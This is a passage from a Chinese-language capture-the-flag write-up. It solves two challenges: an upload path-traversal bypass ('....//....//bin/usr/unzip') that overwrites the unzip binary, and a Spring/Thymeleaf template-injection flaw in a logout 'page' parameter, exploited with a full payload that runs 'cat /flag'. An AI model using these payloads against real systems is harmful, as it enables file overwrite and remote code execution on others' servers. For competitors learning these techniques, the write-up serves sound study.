 安装gcc编译器

```bash
gcc catflag.c -o catflag
```

完成编译,产生二进制文件.由于虚拟机不太方便传文件,我登陆了微信网页文件助手来传输二进制文件.

复制到桌面上把名字改成unzip,打开burpsuite,上传抓包修改文件名为"....//....//bin/usr/unzip"(双写绕过目录穿越检测)

这样指令就会覆盖成功.这个时候重新上传一个文件,就可以得到flag(这题是动态flag,就不放了)

也可以自己在docker中进行测试,我的docker比较烂(x)

### What's problem In Login Code?

下载下来了一个jar文件,使用idea进行反编译

```java
protected void configure(AuthenticationManagerBuilder auth) throws Exception {
    ((InMemoryUserDetailsManagerConfigurer)auth.inMemoryAuthentication().withUser("admin").password(this.passwordEncoder().encode("admin")).roles(new String[]{"ADMIN"}).and()).withUser("user").password(this.passwordEncoder().encode("woshiuser")).roles(new String[]{"USER"});
}
```

发现两个用户名密码(ADMIN,admin)(user,woshiuser),使用admin账号进行登录,没什么用

```java
public class LoginController {
    public LoginController() {
    }

    @RequestMapping({"/login"})
    public String login() {
        return "login";
    }

    @GetMapping({"/logout"})
    public String logout(@RequestParam(required = false,defaultValue = "index") String page) {
        return page;
    }
}
```

研究了一下logincontroller,发现可以传入参数page,并且存在错误回显

payload:http://1.container.jingsai.apicon.cn:31953//page=lang=__$%7bnew%20java.util.Scanner(T(java.lang.Runtime).getRuntime().exec("cat%20/flag").getInputStream()).next()%7d__::.x

获取flag成功.